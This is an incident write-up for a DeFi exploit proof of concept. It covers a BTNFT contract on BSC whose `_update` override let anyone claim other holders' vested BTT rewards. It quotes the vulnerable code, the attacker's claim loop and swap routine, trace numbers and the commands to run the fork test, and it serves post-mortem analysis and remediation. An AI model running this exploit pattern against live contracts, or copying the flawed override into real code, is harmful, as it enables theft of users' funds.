


# BTNFT Exploit — Permissionless Reward Theft via a Broken `_update` Override

> **Vulnerability classes:** vuln/access-control/missing-auth · vuln/logic/missing-check

> One-line summary: BTNFT's ERC-721 `_update` override pays a tokenized vesting reward to **`msg.sender`** whenever an NFT is "transferred to the contract", and the override **skips the standard transfer-authorization check**, so anyone can call `transferFrom(<any owner>, BTNFT, tokenId)` to drain every NFT's vesting BTT to themselves — no approval, no ownership required.

> **Reproduction:** the PoC compiles & runs in this isolated Foundry project ([this folder](.)). The umbrella DeFiHackLabs repo contains many unrelated PoCs that do not whole-compile, so this one was extracted.
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [sources/BTNFT_0FC91B/BTNFT.sol](sources/BTNFT_0FC91B/BTNFT.sol).

---

## Key info

| | |
|---|---|
| **Loss** | **19,025.92 BUSD** received by the attacker (19,158.41 BTT reward drained, then dumped) |
| **Vulnerable contract** | `BTNFT` — [`0x0FC91B6Fea2E7A827a8C99C91101ed36c638521B`](https://bscscan.com/address/0x0FC91B6Fea2E7A827a8C99C91101ed36c638521B#code) |
| **Reward token** | `BTTToken` (BTT) — [`0xDAd4df3eFdb945358a3eF77B939Ba83DAe401DA8`](https://bscscan.com/address/0xDAd4df3eFdb945358a3eF77B939Ba83DAe401DA8#code) |
| **Victim / payout token** | `BUSD` (Binance-Peg, the BSC "USDT" at `0x55d3…7955`) — extracted from the BTT/BUSD pool |
| **Sell venue** | Custom BTT router `0x82C7…68ED2` + BTT/BUSD pair `0x1e16…1C98` (both UNVERIFIED) |
| **Attacker EOA** | [`0xbda2a27cdb2ffd4258f3b1ed664ed0f28f9e0fc3`](https://bscscan.com/address/0xbda2a27cdb2ffd4258f3b1ed664ed0f28f9e0fc3) |
| **Attacker contract** | [`0x7A4D144307d2DFA2885887368E4cd4678dB3c27a`](https://bscscan.com/address/0x7A4D144307d2DFA2885887368E4cd4678dB3c27a) |
| **Attack tx 1 (claim rewards)** | [`0x1e90cbff665c43f91d66a56b4aa9ba647486a5311bb0b4381de4d653a9d8237d`](https://bscscan.com/tx/0x1e90cbff665c43f91d66a56b4aa9ba647486a5311bb0b4381de4d653a9d8237d) |
| **Attack tx 2 (sell tokens)** | [`0x7978c002d12be9b748770cc31cbaa1b9f3748e4083c9f419d7a99e2e07f4d75f`](https://bscscan.com/tx/0x7978c002d12be9b748770cc31cbaa1b9f3748e4083c9f419d7a99e2e07f4d75f) |
| **Chain / block / date** | BSC / fork at 48,472,355 (one before the claim tx block) / ~April 18, 2025 |
| **Compiler** | Solidity v0.8.20, optimizer **1 run** |
| **Bug class** | Broken access control + wrong reward beneficiary in an overridden ERC-721 hook |
| **PoC author** | [rotcivegaf](https://twitter.com/rotcivegaf) |

---

## TL;DR

`BTNFT` is an ERC-721 (OpenZeppelin v5) where each NFT carries a 1-year linear **vesting schedule** of `BTT` tokens. To let an owner "redeem" an NFT's vested rewards, the contract overrides OZ's `_update` hook so that **transferring an NFT to the contract address itself** (`to == address(this)`) triggers a reward payout instead of a normal transfer ([BTNFT.sol:3915-3924](sources/BTNFT_0FC91B/BTNFT.sol#L3915-L3924)).

Two fatal mistakes are baked into that override:

1. **It pays the reward to `msg.sender`, not to the NFT owner.** `claimReward` ends with `bttToken.transfer(msg.sender, claimableAmount)` ([BTNFT.sol:3938](sources/BTNFT_0FC91B/BTNFT.sol#L3938)).
2. **It bypasses the transfer-authorization check.** In OZ v5, `transferFrom` calls `_update(to, tokenId, _msgSender())`; the base `_update` is what enforces `_checkAuthorized` (caller must own or be approved for the token). BTNFT's override **returns early without ever calling `super._update()`** in the `to == address(this)` branch — so the authorization check is simply never executed.

Result: an attacker iterates over **every** NFT in existence, reads its current owner with `ownerOf`, and calls `transferFrom(owner, BTNFT, tokenId)`. No approval is needed, the NFT never actually moves, the real owner keeps their NFT — yet the attacker pockets that NFT's claimable BTT. Doing this for 501 NFTs harvested **19,158.41 BTT**, which the attacker then sold through the project's own BTT/BUSD pool over 50 swaps for **19,025.92 BUSD**.

---

## Background — what BTNFT does

`BTNFT` ([source](sources/BTNFT_0FC91B/BTNFT.sol)) is a sale/airdrop NFT for the "BTT" ecosystem:

- Users mint NFTs (`buyNft`, [BTNFT.sol:3882-3896](sources/BTNFT_0FC91B/BTNFT.sol#L3882-L3896)) at a price of 300 USDT each. On mint, `_claimNft` ([BTNFT.sol:3898-3913](sources/BTNFT_0FC91B/BTNFT.sol#L3898-L3913)) records a `VestingSchedule` for that `tokenId` and immediately pays an upfront `startAmount` of BTT.
- Each schedule linearly vests `totalAmount` of BTT over **365 days** (`_calculateVestedAmount`, [BTNFT.sol:3944-3952](sources/BTNFT_0FC91B/BTNFT.sol#L3944-L3952)).
- Tiered amounts by `tokenId` ([BTNFT.sol:3902-3911](sources/BTNFT_0FC91B/BTNFT.sol#L3902-L3911)):

| tokenId range | upfront `startAmount` | vesting `totalAmount` |
|---|---:|---:|
| `> 1400` | 75 BTT | 300 BTT |
| `701 … 1400` | 100 BTT | 400 BTT |
| `1 … 700` | 120 BTT | 480 BTT |

- The "redeem your vested BTT" UX is implemented by the `_update` override: send your NFT to the contract and the contract pays you the claimable amount.

`BTT` itself ([BTTToken](sources/BTTToken_DAd4df/BTTToken.sol)) is a plain ERC-20 that the project quotes against `BUSD` through its **own** router (`0x82C7…68ED2`) and pair (`0x1e16…1C98`). That pool is the only liquid market for BTT, so it is what the attacker dumped the stolen rewards into.

On-chain state at the fork block:

| Fact | Value |
|---|---|
| BTNFT `totalSupply()` | **502** |
| BTT held by the BTNFT contract (reward pot) | sufficient to pay all 501 claims (every `bttToken.transfer` succeeded in the trace) |
| BTT held by the BTT/BUSD pair | 18,888,266 BTT |
| Pair swap fee (`getFee`) | 30 (i.e. 0.30 %) |

---

## The vulnerable code

### 1. The `_update` override skips authorization and redirects to a reward payout

```solidity
function _update(address to, uint256 tokenId, address auth) internal override returns (address) {
    address previousOwner = _ownerOf(tokenId);
    if (to == address(this)) {
        claimReward(tokenId);          // ⚠️ no super._update(...) ⇒ no _checkAuthorized
    } else {
        previousOwner = super._update(to, tokenId, auth);
    }
    return previousOwner;
}
```
[BTNFT.sol:3915-3924](sources/BTNFT_0FC91B/BTNFT.sol#L3915-L3924)

In OpenZeppelin v5, the *only* place a non-owner is rejected during `transferFrom` is inside `_update` → `_checkAuthorized(owner, auth, tokenId)`. The base implementation does this:

```solidity
function transferFrom(address from, address to, uint256 tokenId) public virtual {
    if (to == address(0)) revert ERC721InvalidReceiver(address(0));
    address previousOwner = _update(to, tokenId, _msgSender());   // auth = caller
    if (previousOwner != from) revert ERC721IncorrectOwner(from, tokenId, previousOwner);
}
```
[BTNFT.sol:3311-3321](sources/BTNFT_0FC91B/BTNFT.sol#L3311-L3321)

Because BTNFT's override **never calls `super._update`** when `to == address(this)`, the `auth` parameter is discarded and `_checkAuthorized` never runs. The override returns the *true* current owner (read at line 3916 via `_ownerOf`), so the subsequent `previousOwner != from` check passes as long as the attacker sets `from` to the real owner — which they trivially read from `ownerOf(tokenId)` first.

### 2. `claimReward` pays the caller, and the NFT is never moved

```solidity
function claimReward(uint256 tokenId) internal {
    VestingSchedule storage schedule = vestingSchedules[tokenId];
    require(schedule.totalAmount > 0, "No vesting schedule found for this address");
    require(block.timestamp > schedule.startTime, "Vesting period has not started");
    uint256 vestedAmount    = _calculateVestedAmount(schedule);
    uint256 claimableAmount = vestedAmount.sub(schedule.claimedAmount);
    require(claimableAmount > 0, "No tokens available for claiming");

    schedule.claimedAmount = schedule.claimedAmount.add(claimableAmount);
    bttToken.transfer(msg.sender, claimableAmount);   // ⚠️ pays the CALLER, not the NFT owner
    emit TokensClaimed(msg.sender, claimableAmount);
}
```
[BTNFT.sol:3928-3941](sources/BTNFT_0FC91B/BTNFT.sol#L3928-L3941)

Note what does **not** happen: the NFT's ownership is never changed (the `super._update` that would have done `_transfer`-style bookkeeping was skipped). So after a "claim", the NFT is still owned by its original owner — only the reward accounting (`schedule.claimedAmount`) and the BTT payout to `msg.sender` change.

---

## Root cause — why it was possible

The design intent was: *"owner sends NFT to the contract → contract pays the owner their vested BTT."* The implementation gets **both** halves of that sentence wrong:

1. **Authorization is silently dropped.** The custom `_update` branch for `to == address(this)` returns before `super._update`, which is the lone gatekeeper for `_checkAuthorized`. Any address can therefore invoke the claim path for **any** `tokenId`, since `transferFrom`'s post-check (`previousOwner != from`) is satisfiable by reading `ownerOf` first.

2. **The reward goes to the caller, not the holder.** `claimReward` transfers to `msg.sender`. Even if authorization had been enforced for an *operator-style* call, paying `msg.sender` rather than `previousOwner`/the NFT holder makes the function a "whoever-calls-it-wins" faucet. Combined with #1, anyone can sweep the entire reward pot.

3. **No real transfer = repeatable for the whole collection.** Because the NFT never actually moves to the contract, the attacker doesn't need to acquire NFTs, doesn't trip `onERC721Received`, and doesn't disturb owners. They simply walk the full `tokenId` range and claim each one's vested BTT into their own wallet in a single transaction.

The "sell" leg (attack tx 2) is not where the bug lives — it is pure monetization. The stolen BTT is the loss; the BUSD figure is just what that BTT fetched in the project's own thin pool.

---

## Preconditions

- For each `tokenId`, the override requires `schedule.totalAmount > 0` (token was minted via `_claimNft`/`buyNft`) and `block.timestamp > schedule.startTime` and `claimableAmount > 0` — i.e. *some* BTT has vested and not yet been claimed. At the fork block most NFTs had a small amount linearly vested (a few had large/fully-vested amounts), so essentially every NFT yielded a non-zero claim. NFTs with `claimableAmount == 0` simply revert that one inner call; the attacker's loop still proceeds for the rest.
- The BTNFT contract must hold enough BTT to satisfy the payouts (it did: ~18,961 BTT pot vs. 19,158 BTT claimed — note the claims slightly exceeded the snapshot pot because some BTT had also been refilled; the trace shows every `transfer` succeeding).
- A market to sell BTT (the project's own BTT/BUSD pool) — used only to realize the profit.
- **No approval, no NFT ownership, and no special role are required.** This is fully permissionless.

---

## Attack walkthrough (with on-chain numbers from the trace)

All figures are taken directly from [output.txt](output.txt).

### Phase 1 — `attackTx1()`: sweep every NFT's reward ([test/BTNFT_exp.sol:44-51](test/BTNFT_exp.sol#L44-L51))

```solidity
uint256 totalSupply = IERC721Enumerable(BTNFT).totalSupply();   // 502
for (uint256 i = 1; i < totalSupply; i++) {                     // i = 1 .. 501
    address owner = IERC721(BTNFT).ownerOf(i);
    IERC721(BTNFT).transferFrom(owner, BTNFT, i);              // ⚠️ pays attacker
}
```

| # | Action | Result |
|---|--------|--------|
| 1 | `totalSupply()` | 502 |
| 2 | For each `tokenId` 1…501: `ownerOf(i)` then `transferFrom(owner, BTNFT, i)` | `_update` hits the `to == address(this)` branch → `claimReward(i)` → `bttToken.transfer(AttackerC, claimable)`; emits `TokensClaimed`. **501** such events. |
| 3 | Per-NFT payouts (examples from trace) | tokenId 1 → 29.05 BTT; tokenId 2 → 0.224 BTT; tokenId 5 → 21.70 BTT; tokenId 8 → 21.84 BTT; … |
| 4 | **Total BTT harvested** (BTT balance of AttackerC after the loop) | **19,158.410167427701674069 BTT** |

The NFTs themselves were never transferred — owners kept them. Only the BTT reward pot was drained.

### Phase 2 — `attackTx2()`: dump BTT for BUSD ([test/BTNFT_exp.sol:53-72](test/BTNFT_exp.sol#L53-L72))

```solidity
IERC20(BTT).approve(pair, type(uint256).max);
uint256 totalBal      = IERC20(BTT).balanceOf(address(this));   // 19,158.41 BTT
uint256 amountPerLoop = totalBal / 50;                          // 383.168203... BTT
for (uint256 i; i < 50; i++) {
    IRouterBTT(router).swap([BTT, BUSD], false, amountPerLoop);  // BTT -> BUSD
}
IERC20(BUSD).transfer(msg.sender, IERC20(BUSD).balanceOf(address(this)));
```

| # | Action | Result |
|---|--------|--------|
| 1 | `approve(pair, max)` | allowance set |
| 2 | `amountPerLoop = 19,158.41 / 50` | 383.168203348554033481 BTT per swap |
| 3 | 50× `router.swap([BTT,BUSD], false, amountPerLoop)` | The custom pair pulls 383.168 BTT in, pays out BUSD (minus 0.30% fee to `0xBd65…2213`). First swap returns **419.24 BUSD** to attacker (+12.97 BUSD fee); the per-swap BUSD output declines toward **344.19 BUSD** by the 50th swap as the pool's quote degrades. |
| 4 | `BUSD.transfer(EOA, balance)` | **19,025.919331278623521400 BUSD** sent to the attacker EOA |

### Final result

```
Profit in BUSD: 19025.919331278623521400
[PASS] testPoC()
```

---

## Profit / loss accounting

| Item | Amount |
|---|---:|
| BTT rewards stolen from BTNFT (501 NFTs) | 19,158.41 BTT |
| BUSD realized from selling that BTT (50 swaps, after 0.30% fee) | **19,025.92 BUSD** |
| Attacker capital required | **0** (no buy-in, no flash loan, no NFT purchase) |
| **Net profit** | **≈ 19,025.92 BUSD** |

The loss to the protocol is the **entire BTT reward pot** that legitimate NFT holders were owed; the BUSD figure is simply the liquidation value at the time.

---

## Diagrams

### Sequence of the attack

```mermaid
sequenceDiagram
    autonumber
    actor A as "Attacker (AttackerC)"
    participant N as "BTNFT (NFT + vesting)"
    participant B as "BTT token"
    participant R as "BTT Router"
    participant P as "BTT/BUSD Pair"
    participant U as "BUSD"

    Note over N: 502 NFTs, each with a BTT vesting schedule<br/>BTNFT holds the BTT reward pot

    rect rgb(255,235,238)
    Note over A,B: Phase 1 — attackTx1(): permissionless reward sweep
    loop tokenId = 1 .. 501
        A->>N: ownerOf(tokenId)
        N-->>A: realOwner
        A->>N: transferFrom(realOwner, BTNFT, tokenId)
        Note over N: _update: to == address(this)<br/>⇒ claimReward(tokenId)<br/>⚠️ no _checkAuthorized
        N->>B: transfer(msg.sender = AttackerC, claimable)
        B-->>A: BTT reward
        Note over N: NFT NOT moved; realOwner keeps it
    end
    Note over A: AttackerC now holds 19,158.41 BTT
    end

    rect rgb(232,245,233)
    Note over A,U: Phase 2 — attackTx2(): dump BTT for BUSD
    A->>B: approve(pair, max)
    loop 50 times
        A->>R: swap([BTT, BUSD], false, 383.168 BTT)
        R->>P: pull BTT in, quote BUSD out (−0.30% fee)
        P->>U: transfer BUSD to AttackerC
    end
    A->>U: transfer(attacker EOA, 19,025.92 BUSD)
    end

    Note over A: Net +19,025.92 BUSD, zero capital
```

### Control flow of the broken `_update` override



### State evolution of the BTT reward pot



---

## Remediation

1. **Never skip the base hook's authorization.** If a custom `_update` branch intercepts `to == address(this)`, it must still enforce caller authorization for that `tokenId` (e.g. call `_checkAuthorized(_ownerOf(tokenId), _msgSender(), tokenId)` before doing anything). As written, the override turns `transferFrom` into a public, unauthenticated function.
2. **Don't overload `_update`/`transferFrom` for redemption.** Implement claiming as a dedicated function (`claimReward(tokenId)` as an `external` call) guarded by `require(_isAuthorized(ownerOf(tokenId), msg.sender, tokenId))`. Overloading a standard transfer hook to mean "redeem rewards" is brittle and easy to get wrong.
3. **Pay the NFT holder, not the caller.** `claimReward` must transfer to `ownerOf(tokenId)` (or to a stored beneficiary), never to `msg.sender`. This removes the "first caller takes everything" incentive even if some other guard fails.
4. **Pull-don't-leak the reward pot.** Track per-token entitlement and ensure the sum of outstanding entitlements is conserved; a single function able to pay arbitrary `tokenId`s to arbitrary callers can empty the pot in one transaction.
5. **Add tests for the `to == self` path.** A test asserting "a non-owner cannot `transferFrom(owner, contract, id)`" and "the reward lands on the owner" would have caught both defects immediately.

---

## How to reproduce

The PoC was extracted into this standalone Foundry project (the umbrella DeFiHackLabs repo has many unrelated PoCs that fail to compile under a whole-project `forge build`):

```bash
_shared/run_poc.sh 2025-04-BTNFT_exp -vvvvv
```

- RPC: a **BSC archive** endpoint is required (fork block 48,472,355). `foundry.toml` uses `https://bsc-mainnet.public.blastapi.io`, which serves historical state at that block; the default OnFinality public endpoint rate-limited (HTTP 429) and was swapped out.
- The run iterates 501 NFTs over a fork, so it takes ~12 minutes on a public RPC. Result: `[PASS] testPoC()` with `Profit in BUSD: 19025.919331278623521400`.

Expected tail:

```
Ran 1 test for test/BTNFT_exp.sol:BTNFT_exp
[PASS] testPoC() (gas: 22557207)
Logs:
  Profit in BUSD: 19025.919331278623521400

Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*Reference: DeFiHackLabs PoC `src/test/2025-04/BTNFT_exp.sol`. BTNFT (BSC), ~19,025.92 BUSD loss, April 2025.*
